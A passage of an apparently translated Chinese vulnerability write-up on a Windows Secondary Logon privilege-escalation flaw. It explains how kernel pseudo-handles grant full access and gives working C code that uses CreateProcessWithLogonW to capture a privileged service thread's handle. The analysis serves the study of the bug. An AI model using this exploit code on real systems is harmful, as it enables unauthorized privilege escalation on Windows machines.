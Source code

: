 为了性能方面的考虑，也为了开发更简单，NT内核有一个特殊处理，允许进程使用伪句柄引用当前进程或线程，而不用由它的PID/ TID打开该对象并通过完整访问权限来获取（虽然这样也能成功）。开发人员通常会通过GetCurrentProcess和GetCurrentThread的API获取到。我们可以看到下面的代码中展示出的特例:

```
NTSTATUS ObpReferenceProcessObjectByHandle(HANDLE       SourceHandle,
                                           EPROCESS*    SourceProcess, 
                                           ..., 
                                           PVOID*       Object, 
                                           ACCESS_MASK* GrantedAccess) {
  if ((INT_PTR)SourceHandle < 0) {
    if (SourceHandle == (HANDLE)-1 ) {
      *GrantedAccess = PROCESS_ALL_ACCESS;
      *Object = SourceProcess;
      return STATUS_SUCCESS;
    } else if (SourceHandle == (HANDLE)-2) {
      *GrantedAccess = THREAD_ALL_ACCESS;
      *Object = KeGetCurrentThread();
      return STATUS_SUCCESS;
    }
    return STATUS_INVALID_HANDLE;
    
    // Get from process handle table.
}

```

现在我们可以理解为什么代码检查29位了。它检查低2位是否设置了值（伪句柄 -1，-2），但即使较高的位被设置了，也一样应该被认为是有效的句柄。这便是错误根源所在。我们可以从内核代码发现，如果指定了-1，那么源进程就有完整的访问权限。但是，并没有什么用。因为源进程已经在我们的控制之下，并没有特权。

在另一方面，如果指定-2，则对当前线程有完全访问，但是该线程实际上是Secondary Logon服务，并且它也是用来处理RPC请求的线程池之一的现成。这显然是有问题的。

唯一的问题是如何我们才可以调用CreateProcessWithToken/Logon API来作为一个普通用户启动进程？调用者需要具有SeImpersonatePrivilege才行，但你很容易会考虑到以普通用户登录时，需要一个有效的用户帐号和密码，如果我们是一个恶意用户这是可以的，但如果我们在用漏洞攻击别人的话，还是不要这样为好。仔细看了看原来有一个特殊的标志，可以让我们不需要提供有效的凭证，名为LOGON_NETCREDENTIALS_ONLY。当它与登录API一起用于连接网络资源时，主令牌是基于主叫方的。这使我们无需特殊权限或需要用户的密码去创建进程。将其组合在一起，我们可以使用下面的代码捕获一个线程句柄：

```
HANDLE GetThreadHandle() {
  PROCESS_INFORMATION procInfo = {};
  STARTUPINFO startInfo = {};
  startInfo.cb = sizeof(startInfo);

  startInfo.hStdInput = GetCurrentThread();
  startInfo.hStdOutput = GetCurrentThread();
  startInfo.hStdError = GetCurrentThread();
  startInfo.dwFlags = STARTF_USESTDHANDLES;

  CreateProcessWithLogonW(L"test", L"test", L"test", 
                          LOGON_NETCREDENTIALS_ONLY, nullptr, L"cmd.exe", 
                          CREATE_SUSPENDED, nullptr, nullptr, 
                          &startInfo, &procInfo);
  HANDLE hThread = nullptr;  
  DuplicateHandle(procInfo.hProcess, (HANDLE)0x4, 
         GetCurrentProcess(), &hThread, 0, FALSE, DUPLICATE_SAME_ACCESS);
  TerminateProcess(procInfo.hProcess, 1);
  CloseHandle(procInfo.hProcess);
  CloseHandle(procInfo.hThread);
  return hThread;
} 

```
